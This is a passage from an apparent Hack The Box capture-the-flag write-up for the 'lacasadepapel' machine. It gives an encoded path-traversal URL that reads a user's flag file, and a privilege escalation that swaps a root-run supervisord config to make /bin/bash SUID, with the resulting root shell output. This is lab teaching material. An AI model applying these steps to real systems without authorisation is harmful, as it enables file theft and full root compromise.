 To read the first flag, I guess I can just do it from the webserver since it is running as `berlin`: `https://lacasadepapel.htb/file/Li4vLi4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vdXNlci50eHQ`. 

### Root flag

Using Pspy, I noticed that `/home/professor/memcached.js` was being run by the user `nobody` every minute or so.

```
2023/01/17 21:28:02 CMD: UID=65534 PID=14621  | /usr/bin/node /home/professor/memcached.js
```

Also, the file `/home/professor/memcached.ini` got my attention:

```
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

According with the documentation I saw and also some of the Pspy output, looks like `supervisord` is executing the command in `memcached.ini` as `root`. We cannot really modify the file to execute whatever we want but we can do something, yeah the file is not ours but the directory is owned by our user. We can just move the original file away and create another one with the same name with something like:

```
[program:memcached]
command = sudo chmod u+s /bin/bash
```

After waiting a bit, the `bash` binary transformed to a SUID binary and the machine is pwned!

```bash
lacasadepapel [~]$ /bin/bash -p
lacasadepapel [~]$ id
uid=1002(professor) gid=1002(professor) euid=0(root) groups=1002(professor)
```

